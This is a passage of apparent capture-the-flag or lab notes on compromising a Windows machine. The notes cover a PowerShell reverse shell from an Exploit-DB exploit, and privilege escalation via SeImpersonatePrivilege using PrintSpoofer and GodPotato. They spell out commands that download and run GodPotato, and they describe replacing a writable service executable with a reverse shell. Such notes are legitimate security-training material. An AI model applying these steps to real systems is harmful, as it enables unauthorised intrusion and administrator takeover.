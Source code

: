 	- https://www.exploit-db.com/exploits/47799
- Use the exploit to execute a PowerShell reverse shell
	- Refer to encode.py in [[13 Common Payloads]]
## Initial Entry + Local Flag
- Entered as chris
- local.txt in chris's Desktop
	![[Pasted image 20250217193834.png]]
## Privilege Escalation + Proof Flag
- Has SeImpersonatePrivilege
	- Import PrintSpoofer and escalate privileges
	![[Pasted image 20250217193755.png]]
	- Eh? It doesn't work
	- Try GodPotato:
		- `iwr -uri https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -Outfile GodPotato.exe`
		- `.\GodPotato.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\proof.txt`
- Intended method:
	 ![[Pasted image 20250217200139.png]]
	 ![[Pasted image 20250217200028.png]]
	- Find KiteService, we can create/modify files inside + start/stop services too
	- Replace KiteService.exe in C:\Program Files\Kite with reverse shell exe
- proof.txt in Administrator Desktop
	![[Pasted image 20250217200417.png]]